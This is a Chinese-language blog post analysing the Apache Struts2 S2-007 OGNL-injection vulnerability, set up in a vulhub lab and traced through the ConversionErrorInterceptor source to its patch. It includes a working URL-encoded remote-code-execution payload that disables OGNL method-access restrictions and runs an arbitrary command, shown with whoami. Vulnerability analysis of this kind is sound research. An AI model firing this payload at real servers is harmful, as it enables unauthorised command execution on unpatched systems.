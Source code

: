 ```yaml
---
title: 【Struts2-命令-代码执行漏洞分析系列】S2-007
date: 2018-08-31 19:13:04
tags:
	- java
	- struts2
	- 漏洞分析
---
```


# 前言

继上回S2-001之后，继续分析了S2-007，若有疏漏，还望多多指教。

漏洞环境根据vulhub中的环境修改而来 https://github.com/vulhub/vulhub/tree/master/struts2/s2-007

这回的S2-007和上回的S2-001漏洞环境地址 https://github.com/kingkaki/Struts2-Vulenv

有感兴趣的师傅可以一起分析下

# 漏洞信息

官方漏洞信息页面： https://cwiki.apache.org/confluence/display/WW/S2-007

![](Struts2-命令-代码执行漏洞分析系列 S2-007\1.png)

形成原因：
> User input is evaluated as an OGNL expression when there's a conversion error. This allows a malicious user to execute arbitrary code. 

当配置了验证规则，类型转换出错时，进行了错误的字符串拼接，进而造成了OGNL语句的执行。



# 漏洞利用

这里我配置了一个`UserAction-validation.xml`验证表单

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
        "-//OpenSymphony Group//XWork Validator 1.0//EN"
        "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

限制了age的值只能为`int`，而且长度在1-150之间

然后在登录界面用户名和邮箱值随意，age部分改为我们的payload

```
'+(#application)+'
```

![](Struts2-命令-代码执行漏洞分析系列 S2-007\2.png)

在age的value部分，成功有了回显

![](Struts2-命令-代码执行漏洞分析系列 S2-007\3.png)



命令执行

```
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29+%2B+%27
```

![](Struts2-命令-代码执行漏洞分析系列 S2-007\4.png)



修改`whoami`部分就可以执行任意命令

![](Struts2-命令-代码执行漏洞分析系列 S2-007\5.png)



# 漏洞分析

漏洞主要发生在`S2-007/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ConversionErrorInterceptor.class:28`

```java
public String intercept(ActionInvocation invocation) throws Exception {
    ActionContext invocationContext = invocation.getInvocationContext();
    Map<String, Object> conversionErrors = invocationContext.getConversionErrors();
    ValueStack stack = invocationContext.getValueStack();
    HashMap<Object, Object> fakie = null;
    Iterator i$ = conversionErrors.entrySet().iterator();

    while(i$.hasNext()) {
        Entry<String, Object> entry = (Entry)i$.next();
        String propertyName = (String)entry.getKey();
        Object value = entry.getValue();
        if (this.shouldAddError(propertyName, value)) {
            String message = XWorkConverter.getConversionErrorMessage(propertyName, stack);
            Object action = invocation.getAction();
            if (action instanceof ValidationAware) {
                ValidationAware va = (ValidationAware)action;
                va.addFieldError(propertyName, message);
            }

            if (fakie == null) {
                fakie = new HashMap();
            }

            fakie.put(propertyName, this.getOverrideExpr(invocation, value));
        }
    }

    if (fakie != null) {
        stack.getContext().put("original.property.override", fakie);
        invocation.addPreResultListener(new PreResultListener() {
            public void beforeResult(ActionInvocation invocation, String resultCode) {
                Map<Object, Object> fakie = (Map)invocation.getInvocationContext().get("original.property.override");
                if (fakie != null) {
                    invocation.getStack().setExprOverrides(fakie);
                }

            }
        });
    }

    return invocation.invoke();
}
```

当类型出现错误的时候，就会进入这个函数

这里可以看到，在`Object value = entry.getValue();`中取出了传入的payload

![](Struts2-命令-代码执行漏洞分析系列 S2-007\6.png)

再来到后面的`fakie.put(propertyName, this.getOverrideExpr(invocation, value));`

跟进`this.getOverrideExpr(invocation, value);`

```java
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
    return "'" + value + "'";
}
```

这也就解释了为什么payload的两端要加`'+`、`+'`就是为了闭合这里的两端的引号

对放入`fakie`的value值就变成了`''+(#xxxx)+''`的形式

![](Struts2-命令-代码执行漏洞分析系列 S2-007\7.png)

进在后面放入了`invocation`值中，最后调用了`invoke()`解析OGNL成功代码执行

![](Struts2-命令-代码执行漏洞分析系列 S2-007\8.png)



# 漏洞修复

struts2.2.3.1对这个漏洞进行了修复，修复方法也异常简单，类似于sql注入的`addslashes`，对其中的单引号进行了转义

在`getOverrideExpr`函数中进行了`StringEscape`，从而无法闭合单引号，也就无法构造OGNL表达式

![](Struts2-命令-代码执行漏洞分析系列 S2-007\9.png)









# Reference Links

https://github.com/vulhub/vulhub/tree/master/struts2/s2-007

https://cwiki.apache.org/confluence/display/WW/S2-007

https://issues.apache.org/jira/browse/WW-3668